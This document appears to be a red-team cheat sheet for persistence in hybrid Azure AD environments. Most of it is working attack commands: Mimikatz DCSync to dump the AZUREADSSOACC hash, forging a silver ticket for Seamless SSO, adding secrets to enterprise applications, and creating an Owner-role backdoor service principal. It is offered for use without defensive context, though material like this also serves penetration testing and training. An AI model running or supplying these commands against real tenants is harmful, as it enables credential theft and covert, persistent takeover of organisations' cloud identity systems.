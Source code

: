 # Persistence
- It is recommended by Microsoft to join the Azure AD Connect server to the on-prem AD. 
- This means that the persistence mechanisms for on-prem (like Golden Ticket, Silver Ticket, ACL Backdoors and others) that provide us either DA on the on-prem or local admin on the Azure AD connect server will allow to get GA on Azure AD on demand!
  - For PHS, we can extract the credentials
  - For PTA, we can install the agent
  - For Federation, we can extract the certificate from ADFS server using DA

## Hybrid identity - Seamless SSO
- Seamless SSO is supported by both PHS and PTA.
- If seamless SSO is enabled, a computer account AZUREADSSOC is created in the on-prem AD.
- Password/key of the AZUREADSSOACC never changes.

#### Get NTLM hash of AZUREADSSOC account
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\azureadssoacc$ /domain:<DOMAIN> /dc:<DC NAME>"'
```

#### Create a silver ticket
```
Invoke-Mimikatz -Command '"kerberos::golden /user:<USERNAME> /sid:<SID> /id:1108 /domain:<DOMAIN> /rc4:<HASH> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"' 
```

## Add credentials to enterprise applications
#### Check if secrets (application passwords) can be added to all enterprise applications
```
. .\Add-AzADAppSecret.ps1
Add-AzADAppSecret -GraphToken $graphtoken -Verbose
```

#### Use the secret to autheticate as service principal.
```
$password = ConvertTo-SecureString '<SECRET>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<ACCOUNT ID>', $password)
Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant <TENANT ID>
```

### Check what resources service principal can access
```
Get-AzResource
```

## Service principal backdoor creation
#### Create a new azure service principal
```
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
```
